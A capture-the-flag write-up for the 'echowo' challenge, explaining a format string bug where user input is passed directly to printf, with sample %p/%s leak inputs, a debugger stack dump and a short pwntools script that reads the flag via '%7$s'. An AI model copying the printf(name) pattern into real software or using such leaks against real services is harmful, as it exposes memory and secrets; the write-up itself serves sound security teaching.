 # echowo

## Challenge

We are greeted with a prompt asking for our name.

The server will respond with a "Hello" message including the name we enter.

```
What's your name?
Green-Avocado
Hello Green-Avocado
```

The `vuln` function handles our input and sends the response.
It also has a pointer to the flag stored on the stack.

```c
void vuln() {
    char* flag = malloc(FLAG_LEN);
    get_flag(flag);

    char name[64];

    puts("What's your name?");
    fgets(name, sizeof name / sizeof name[0], stdin);

    printf("Hello ");
    printf(name);
}
```

## Solution

Notice that the `vuln` function uses `printf` to repeat our name in an unusal way.

```c
printf("Hello ");
printf(name);
```

Normally, the first argument of `printf` is a format string literal.
In this case, however, the first argument is our input.

If we look at the man page for `printf`, we find this warning:

> ### Bugs
>
> Code such as printf(foo); often indicates a bug, since foo may
> contain a % character.  If foo comes from untrusted user input,
> it may contain %n, causing the printf() call to write to memory
> and creating a security hole.

Since we have control over the `name` variable, we can pass our own format strings!

Normally, when `printf` encounters a format specifier such as `%d`,
it would look at the next arguments to determine what to print.
What happens when the format string is the only argument?

The calling convention specifies that the first 6 arguments are passed in registers
RDI, RSI, RDX, RCX, R8, and R9.
Any arguments after these are pushed on the stack before the function is called.

The first argument is taken by the pointer to the format string.
The next 5 will be read from the remaining registers.

For example, if we enter something like `%p %p %p %p %p`, the server responds like:

```
Hello 0x7568eb18ab70 (nil) 0x61f7d9a36907 0x7568eb18cca0 (nil)
```

But the numbers in these registers aren't particularly useful to us.

What about values on the stack?
`printf` expects that if we ask for any more values, they will have been pushed onto the stack.
However, this is not the case.
Instead, `printf` will read at the offset it expects the next arguments to be located at.
The first one, at RBP-0x8, is actually the top of the `vuln` call stack!

Using this, we can read any value in the `vuln` call stack, or even the `main` stack.
We know there is a pointer to the string on top of the stack,
so let's write 5 `%p` specifiers to skip the stack values, followed by a `%s` to read the string.

```
What's your name?
%p %p %p %p %p %s
Hello 0x75874ce94ff0 (nil) 0x65ec0a555907 0x75874ce97120 (nil) (null)
```

At the end of the response, we got a `(null)` where we expected to get the flag.
The reason becomes obvious if we look at what's happening in a debugger.

First we need to create a fake flag file to run the binary locally.
Then, if we step into the `vuln` function and print the stack, we get something like this:

```
00:0000│ rsp    0x7fffffffe0b0 ◂— 0x0
01:0008│        0x7fffffffe0b8 —▸ 0x1000052a0 ◂— 'fakeflag{for_testing_only}\n'
02:0010│ rax r8 0x7fffffffe0c0 ◂— 0xa61 /* 'a\n' */
03:0018│        0x7fffffffe0c8 ◂— 0x0
04:0020│        0x7fffffffe0d0 —▸ 0x7ffff7f9e300 (__GI__IO_file_jumps) ◂— 0x0
05:0028│        0x7fffffffe0d8 —▸ 0x7ffff7e5bc3d (__GI__IO_file_setbuf+13) ◂— test   rax, rax
06:0030│        0x7fffffffe0e0 —▸ 0x7ffff7f9c800 (_IO_2_1_stdin_) ◂— 0xfbad208b
07:0038│        0x7fffffffe0e8 —▸ 0x7ffff7e53129 (setbuffer+201) ◂— test   dword ptr [rbx], 0x8000
08:0040│        0x7fffffffe0f0 ◂— 0x0
09:0048│        0x7fffffffe0f8 —▸ 0x100001390 (__libc_csu_init) ◂— endbr64 
0a:0050│        0x7fffffffe100 —▸ 0x7fffffffe120 ◂— 0x0
0b:0058│        0x7fffffffe108 ◂— 0xf6f21762d5ee6800
0c:0060│ rbp    0x7fffffffe110 —▸ 0x7fffffffe120 ◂— 0x0
```

Notice that RSP is pointing above the flag, at an address set to 0x0.
This is because of stack alignment.
In `vuln`, there is a char array of size 64 and a pointer of size 8,
giving us a stack size of 72, which is not aligned to 16 bytes.
To ensure function calls are always aligned to 16 bytes, our stack is padded by 8 bytes.
This places our flag pointer at RBP-0x10 during the `printf` call.

Now that we know why the previous attempt failed, let's add one more `%p`
to skip the padding:

```
What's your name?
%p %p %p %p %p %p %s
Hello 0x7aa01b65ef90 (nil) 0x6ff769b2a907 0x7aa01b6610c0 (nil) (nil) maple{fowmat_stwing_vuwnewabiwity!!}
```

Now we can successfully read the flag!

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1340 echowo
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('echowo')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1340)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.sendlineafter(b"What's your name?\n", b"%7$s")

io.interactive()
```

## Flag

```
maple{fowmat_stwing_vuwnewabiwity!!}
```
